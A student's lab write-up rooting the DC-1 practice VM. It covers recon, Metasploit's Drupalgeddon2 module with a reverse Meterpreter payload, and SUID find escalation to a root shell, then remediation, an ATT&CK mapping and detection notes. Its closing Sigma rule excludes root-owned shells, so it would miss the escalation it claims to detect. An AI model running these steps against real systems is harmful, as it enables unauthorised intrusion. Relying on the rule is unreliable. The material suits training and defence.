# DC-1: Drupalgeddon2 to Root via SUID find

## Objective
Compromise DC-1 (VulnHub), a deliberately vulnerable VM, from host discovery through to root, as practice for my Ethical Hacking module's practical exam.

## Environment
- Attacker: Kali Linux, 192.168.56.102 (VirtualBox host-only network)
- Target: DC-1 (VulnHub), 192.168.56.113 — discovered via `nmap -sn`

## What I did
1. Confirmed my attacker IP with `ifconfig -a`: `eth1` on `192.168.56.102`.
2. Swept the internal network for live hosts: `nmap -sn 192.168.56.0/24`, which turned up `192.168.56.113` as the only VirtualBox-NIC host besides the gateway.
3. Scanned all ports and service versions on the target: `nmap -sV -p- -T5 192.168.56.113`. Three services stood out: OpenSSH 6.0p1 (22), Apache httpd 2.2.22 (80), and rpcbind (111).
4. Port 80 was open and running HTTP, so I opened the site in a browser — a Drupal front page with a login form and no content yet.
5. Ran `nikto -h http://192.168.56.113` to fingerprint the CMS further. It flagged several `robots.txt`-referenced Drupal paths but didn't return a version number.
6. Since Nikto didn't confirm the version, I checked the page source directly and found the generator meta tag: `<meta name="Generator" content="Drupal 7 (http://drupal.org)" />`.
7. Confirmed it with CMSeeK: `cmseek -u http://192.168.56.113`, which identified Drupal 7 with high confidence.
8. Drupal 7 has a well-known unauthenticated RCE — Drupalgeddon2 (SA-CORE-2018-002). Searched for it in Metasploit: `search drupalgeddon`.
9. Started `msfconsole` and selected the module.
10. Selected `exploit/unix/webapp/drupal_drupalgeddon2` and reviewed its options — `RHOSTS`, `RPORT` (80), `TARGETURI` (`/`), and the `php/meterpreter/reverse_tcp` payload defaults.
11. Set the target: `set rhosts 192.168.56.113`.
12. Set my listener address and ran it: `set lhost 192.168.56.102` then `run`. Metasploit reported the Drupal version check as inconclusive ("could not be validated. Detected version 7") but the exploit still landed — a Meterpreter session opened from `192.168.56.113:54874`.
13. From the Meterpreter shell I upgraded to an interactive TTY: `python -c 'import pty; pty.spawn("/bin/bash")'`.
14. Looked for SUID privilege-escalation paths: `find / -perm -u=s -type f 2>/dev/null`. Alongside the expected system binaries (`/bin/su`, `/usr/bin/passwd`, etc.), `/usr/bin/find` itself had the SUID bit set — that's the way in.
15. Created a throwaway file to exploit `find`'s SUID bit: `touch suid-bait`, then `find suid-bait -exec "whoami" \;`, which returned `root` — confirming the escalation path worked.
16. Used the same technique to get an interactive root shell: `find suid-bait -exec "/bin/sh" \;`, then confirmed with `whoami` → `root`.
17. Read the target flag: `cat /root/thefinalflag.txt`, which returned the VM's completion message.

## What I found
- Drupal 7 running with no visible hardening, vulnerable to Drupalgeddon2 (CVE-2018-7600), an unauthenticated remote code execution flaw in Drupal's Form API.
- The web server process (`www-data`) had a broken but exploitable privilege boundary: `/usr/bin/find` was left with the SUID bit set, letting any local user (including the web server account) execute arbitrary commands as root via `find`'s `-exec` flag.
- No further hardening (no WAF, no restricted `find` permissions, no monitoring observed) stood between the initial web compromise and full root.

## How I found it
1. Confirming attacker IP
   
2. Host discovery
   
3. Full port/service scan
   
4. Drupal front page
   
5. Nikto scan
   
6. Drupal version via page source
   
7. Drupal version via CMSeeK
   
8. Searching for the Drupalgeddon2 module
   
9. Launching msfconsole
   
10. Reviewing exploit options
    
11. Setting the target
    
12. Running the exploit — Meterpreter session opened
    
13. Spawning a PTY shell
    
14. Hunting for SUID binaries
    
15. Confirming the find SUID escalation
    
16. Root shell via find
    
17. Reading the final flag
    

## Fix/remediation
- Patch Drupal to a version with SA-CORE-2018-002 fixed (Drupal 7.58+ at the time), or apply the vendor's patch if staying on an EOL branch isn't an option.
- Remove the SUID bit from `/usr/bin/find` (`chmod u-s /usr/bin/find`) — GNU find has no legitimate reason to run as root via SUID; use a narrow, audited `sudo` rule instead if elevated find access is genuinely needed.
- Run a periodic SUID/SGID audit (`find / -perm -4000 -o -perm -2000 2>/dev/null`) against a known-good baseline, since this is exactly the kind of misconfiguration that's invisible until someone goes looking for it.

## Tools used
Nmap, Nikto, CMSeeK, Metasploit Framework, Python (pty module), GNU find

## MITRE ATT&CK mapping
- [T1595.002](https://attack.mitre.org/techniques/T1595/002/) — Active Scanning: Vulnerability Scanning (Nikto, CMSeeK)
- [T1046](https://attack.mitre.org/techniques/T1046/) — Network Service Discovery (Nmap host/port scans)
- [T1190](https://attack.mitre.org/techniques/T1190/) — Exploit Public-Facing Application (Drupalgeddon2, CVE-2018-7600)
- [T1548.001](https://attack.mitre.org/techniques/T1548/001/) — Abuse Elevation Control Mechanism: Setuid and Setgid (SUID find privilege escalation)

## Detection
- **Web layer:** Drupalgeddon2 sends its payload as crafted parameters in a POST to a Drupal form-processing endpoint, using PHP-executing array-injection syntax (`#markup`/`#type` keys). A WAF signature or access-log review for anomalous `#`-prefixed POST parameter names on Drupal endpoints catches this whole class of attack, not just this one CVE.
- **Host layer:** the SUID-find escalation leaves a clear trail — a `find` process spawning a child shell (`/bin/sh`, `/bin/bash`) but executing as root, with a low-privilege parent process (`www-data`), is a strong signal, especially paired with a preceding unusual file creation (`suid-bait`) in a web-writable directory.
- Example Sigma rule (untested against real logs, syntax-checked only):
```yaml
title: SUID find Privilege Escalation via -exec
status: experimental
logsource:
    category: process_creation
    product: linux
detection:
    selection:
        ParentImage|endswith: '/find'
        Image|endswith:
            - '/sh'
            - '/bash'
    filter:
        User: 'root'
    condition: selection and not filter
falsepositives:
    - Legitimate administrative use of find -exec as root
level: high
```

## Next steps
Continuing through DC-2 onward in the same series, building toward the EH practical exam.
